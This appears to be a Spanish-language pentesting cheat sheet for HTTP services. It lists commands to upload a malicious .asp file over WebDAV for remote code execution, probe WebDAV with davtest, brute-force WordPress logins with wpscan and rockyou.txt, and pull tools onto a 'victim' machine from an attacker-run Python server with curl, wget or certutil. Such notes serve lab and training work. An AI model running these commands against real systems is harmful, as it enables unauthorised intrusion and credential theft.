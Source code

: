 # HTTP

Propietario: Adrian Gisbert Cabello

- Cadaver
    - Para obtener una shell en la webdav: `cadaver [http://X.X.X.X/webdav](http://x.x.x.x/webdav)`
    - Para enviar un archivo malicioso y obtener una RCE: `put /home/kali/pwned.asp`
- Davtest
    - Herramienta para explotar /davweb: `davtest -url [http://X.X.X.X/webdav/](http://x.x.x.x/webdav/)`
    - `davtest -auth admin:123123 -url [http://X.X.X.X/webdav/](http://x.x.x.x/webdav/)`
    
- WPScan
    - Comando para páginas wordpress: `wpscan --url [http://192.168.X.X/wordpress/](http://192.168.x.x/wordpress/)`
    - `wpscan --url [http://192.168.X.X/wordpress/](http://192.168.x.x/wordpress/) --passwords /usr/share/wordlists/rockyou.txt`
    
- Python Server
    
    Como pasar archivos (p.ej. socat y chisel) de mi Kali a una máquina Linux:
    
    - En Kali ejecutamos una terminal y vamos al directorio donde estén los archivos que queramos compartir e iniciamos un servidor web con python por el puerto 5000:
    - `python3 -m http.server 5000`
    - Ahora en la máquina víctima hacemos un curl o wget del archivo que queramos descargar:
    - `curl -o archivo.txt http://192.168.X.X:5000/archivo.txt`
    - `wget http://192.168.X.X:5000/archivo.txt`
    
    Como pasar archivos (p.ej. socat y chisel) de mi Kali a una máquina Windows:
    
    - En Kali ejecutamos una terminal y vamos al directorio donde estén los archivos que queramos compartir e iniciamos un servidor web con python por el puerto 5000:
    - `python3 -m http.server 5000`
    - Ahora en la máquina víctima hacemos un curl, wget o certutil
    - `curl -o archivo.txt http://192.168.X.X:5000/archivo.txt`
    - `wget http://192.168.X.X:5000/archivo.txt`
    - `certutil -split -urlcache -f http://192.168.X.X:5000/archivo.txt archivo.txt`